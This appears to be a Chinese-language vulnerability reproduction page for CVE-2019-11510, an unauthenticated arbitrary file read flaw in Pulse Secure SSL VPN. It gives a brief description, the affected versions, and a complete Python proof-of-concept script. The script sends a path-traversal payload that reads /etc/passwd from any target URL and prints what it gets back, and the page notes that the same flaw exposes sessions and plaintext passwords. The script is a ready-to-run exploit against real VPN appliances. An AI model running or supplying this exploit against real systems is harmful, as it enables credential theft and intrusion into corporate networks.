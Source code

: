 （CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取
===================================================

一、漏洞简介
------------

Pulse Secure Pulse Connect Secure（又名 PCS，前称 Juniper Junos
Pulse）是美国 Pulse Secure 公司的一套 SSL VPN 解决方案。爆发的
CVE-2019-11510
该漏洞是由于所引入的一项通过浏览器访问其他端口的新功能缺乏安全限制所导致的，任意攻击者都可在未经身份验证的情况下利用该漏洞，读取系统敏感文件，获取
session、明文密码等敏感信息，从而非法入侵并操控
VPN，从而进一步威胁企业内网服务。

二、漏洞影响
------------

Pulse Secure PCS 9.0RX

Pulse Secure PCS 8.3RX

Pulse Secure PCS 8.2RX

Pulse Secure PCS 8.1R15.1

三、复现过程
------------

### poc

    Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py

![1.png](resource/(CVE-2019-11510)PulseSecureSSLVPN任意文件读取/media/rId25.png)

    # -*- coding:utf-8 -*-
    # !/usr/bin/env python

    import sys
    import urlparse
    import requests
    import warnings
    import traceback

    reload(sys)
    sys.setdefaultencoding('utf-8')
    requests.packages.urllib3.disable_warnings()
    warnings.filterwarnings("ignore")

    def CVE_2019_11510(base_url):
        try:
            payloads, keywords = "/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/", "root:x"
            r = requests.get(base_url + payloads, verify=False)
            r.close()
            if keywords in r.text:
                print "[✓] Found CVE-2019-11510 Vuln address(curl --path-as-is -s -k <target>):\n{}\n{}".format(
                    base_url + payloads, r.content)
            else:
                print "[x] Not Found Vuln!"
        except requests.exceptions.ConnectionError:
            pass
        except requests.ReadTimeout:
            pass
        except:
            traceback.print_exc()

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print '[+] Tip: python Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py <url>'
            sys.exit(0)
        url = sys.argv[1]
        CVE_2019_11510(urlparse.urlparse(url).scheme + "://" + urlparse.urlparse(url).hostname)
